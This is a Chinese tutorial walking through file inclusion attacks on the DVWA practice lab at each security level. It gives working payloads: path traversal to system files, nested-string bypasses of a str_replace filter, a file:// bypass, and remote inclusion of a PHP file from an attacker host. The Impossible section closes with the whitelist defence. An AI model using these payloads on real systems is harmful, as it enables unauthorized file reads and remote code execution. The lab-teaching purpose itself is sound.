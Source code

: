 ```yaml
---
title: "文件包含攻击实战"
date: 2019-05-05T16:15:57+08:00
description: ""
draft: false
tags: ["dvwa"]
categories: ["网络安全"]
---
```


<!--more-->



# 12. 文件包含攻击实战

#### 12.1 文件包含攻击概述

　　在进行 Web 程序开发时，经常会碰到一些代码需要重复调用。比如说 jQuery 的库文件，在某个页面需要调用 JS 脚本时，可能就需要在该页面中载入 jQuery 的库文件；再比如说一个网站中的所有页面的页头和页尾可能都是一样的，一般页头是 LOGO 大图和导航菜单，页尾则是版权声明等信息。如果在每个页面中都是直接把重复的代码写进去，将会导致大量重复工作，而且会造成页面源码过多从而降低解析效率。

　　所以为了简化代码，一般会把重复的代码部分单独写到一个页面文件中，然后在需要调用重复内容的页面中使用 `include` 方法来包含重复代码的页面就可以了。使用 `include` 方法可以让当前页面去执行指定的另外一个文件中的代码内容。如果没有对这种行为做限制，那么黑客将很有可能让当前页面去执行超出 Web 目录中的文件，或者是 Web 目录中不希望被执行的敏感文件，甚至是远程服务器上的文件。比如黑客使用 `include` 方法去调用 Linux 系统中的 `/etc/passwd`，就会在当前页面中显示系统中的用户信息；或者黑客自己搭建 Web 服务器，在自己的服务器上写一个 `Webshell`，然后通过 `include` 方法在目标页面中执行本地服务器中的 `Webshell`。

## 　　

#### 12.2 Low 级别文件包含攻击实战

1. 安全级别设置为 `Low`，点击 `File Inclusion` 按钮，进入文件包含攻击页面。页面中有 3 个文件链接，点击后会读取出系统的相关信息，说明这 3 个文件内含有读取相关系统信息的脚本代码，被包含进当前页面执行了。当前的 `URL` 显示了 `http://192.168.75.100/dvwa/vulnerabilities/fi/?page=` 后就是被包含的文件名 `file3.php`，如图 12-1

   

   ![img](../../img/15623078763816.jpg)

   图 12-1

   

2. 考虑到我们当前 Web 服务器是使用的 Windows，把 URL 中的文件名替换为 `C:/windows/system32/drivers/etc/hosts`，发现可以通过绝对路径直接显示 `hosts` 文件中的内容，如图 12-2

   

   ![img](../../img/15623081740296.jpg)

   图 12-2

   

3. 使用相对路径 `../../phpinfo.php` 来替换 URL 中的包含文件名，可以执行 DVWA 程序自带的 `phpinfo` 信息，如图 12-3。`../` 代表当前目录的上层目录。当前目录是 `dvwa/vulnerabilities/fi/`，向上返回 2 层，就到了 `dvwa/`，所以 `../../phpinfo.php` 就是指 `dvwa/phpinfo.php` 这个文件。

   

   ![img](../../img/15623084773291.jpg)

   图 12-2

   

4. 在攻击机上自行搭建一个 Web 服务，我们演示环境攻击机的 IP 地址为 192.168.75.138，在 Web 根目录下写入一个 `shell.php` 文件，用来显示 `PHPINFO`，文件代码如下：

   ```
   <?php phpinfo();?>
   ```

5. PHP 默认不允许跨域引用 URL，需要到 PHP 设置中去开启。在 `PHPStudy` 中点击 其它选项菜单，点击 PHP扩展及设置，选择 参数开关设置，钩选 `allow_url_include`，如图 12-3

   

   ![img](../../img/15623122901955.jpg)

   图 12-2

   

6. 使用 `http://192.168.75.138/shell.txt` 来替换原 URL 中包含的文件名，可以远程执行 PHP 脚本，如图 12-3

   

   ![img](../../img/15623124220207.jpg)

   图 12-3

   

------

#### 12.3 Medium 级别文件包含攻击实战

1. 安全级别设置为 `Medium`，进入文件包含攻击页面，查看源码，发现使用 `str_replace()` 函数把 `http://`、`https://`、`../`、`..\` 替换为了空值，来防止远程文件包含和相对路径的文件包含，如图 12-4。但是 `str_replace()` 函数相当不安全，只做一次替换，比如在 `http://` 中再嵌套一个 `http://` 则可以绕过限制；另外，并没有对绝对路径的文件包含进行防护。

   

   ![img](../../img/15623128351564.jpg)

   图 12-4

   

2. 使用绝对路径来进行文件包含，不受任何影响，如图 12-5

   

   ![img](../../img/15623129520578.jpg)

   图 12-5

   

3. 使用相对路径进行文件包含，需要在 `../` 中多嵌套一个 `../`，在 URL 中输入包含的文件名为 `..././..././phpinfo.php`，可以成功执行，如图 12-6

   

   ![img](../../img/15623131079614.jpg)

   图 12-6

   

4. 使用远程文件包含，需要在 `http://` 中多嵌套一个 `http://`，在 URL 中输入包含的文件名为 `hthttp://tp://192.168.75.138/shell.php`，可以成功执行，如图 12-7

   

   ![img](../../img/15623132306772.jpg)

   图 12-7

   

------

#### 12.4 High 级别文件包含攻击实战

1. 设置安全级别为 `High`，进入文件包含攻击页面，查看页面源码，发现使用 `fnmatch()` 函数来检查变量 `page` 值的开头必须是 `file`，否则就不执行，如图 12-8

   

   ![img](../../img/15623192462072.jpg)

   图 12-8

   

2. 我们可以利用 `file` 协议来绕过防御。使用 `file` 协议可以来描述一个文件的绝对路径。我们这里在 URL 中输入包含的文件名为 `file:///C:/windows/system32/drivers/etc/hosts`，可以成功输出文件内容，如图 12-9

   

   ![img](../../img/15623851848392.jpg)

   图 12-9

   

------

#### 12.5 Impossible 级别文件包含攻击实战

　　在 `Impossible` 级别下，查看页面源码，发现使用了白名单机制，提交的 `page` 变量必须是 `include.php`、`file1.php`，`file2.php`，`file3.php`，否则就不执行，如图 12-10，彻底杜绝了文件包含漏洞。
　　

![img](../../img/15623854585058.jpg)



图 12-10